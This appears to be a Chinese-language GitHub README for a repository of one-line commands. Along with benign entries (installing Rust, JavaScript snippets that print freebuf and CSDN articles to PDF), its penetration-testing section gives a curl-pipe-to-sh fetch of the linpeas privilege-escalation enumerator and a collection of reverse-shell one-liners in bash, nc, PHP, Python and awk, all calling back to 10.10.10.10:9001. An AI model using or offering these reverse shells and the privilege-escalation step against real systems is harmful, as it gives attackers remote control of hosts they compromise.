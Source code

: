 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
  * [反弹shell合集](#反弹shell合集)
* [xxx2pdf](#xxx2pdf)
  * [freebuf2pdf](#freebuf2pdf)
  * [csdn2pdf](#csdn2pdf)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

### xxx2pdf
### freebuf2pdf
> ***2024-6-28: fb0sh***
```js
["articles-layout-header ant-layout-header", "page-header", "ant-layout-footer","floating-view", "aside-left", "aside-right", "remix-module","introduce"].forEach(c => document.getElementsByClassName(c)[0].remove());document.getElementsByClassName("main")[0].setAttribute("style","width:100%");window.print();
```
---
### csdn2pdf
```js
["toolbarBox", "rightAside", "pcCommentBox", "recommendNps", "toolBarBox"].forEach(i => document.getElementById(i).remove());["blog_container_aside", "recommend-box", "blog-footer-bottom", "csdn-side-toolbar"].forEach(c => document.getElementsByClassName(c)[0].remove());document.querySelectorAll("main")[0].setAttribute("style","width:95");window.print();
```
---
<!-- 列表尾 -->
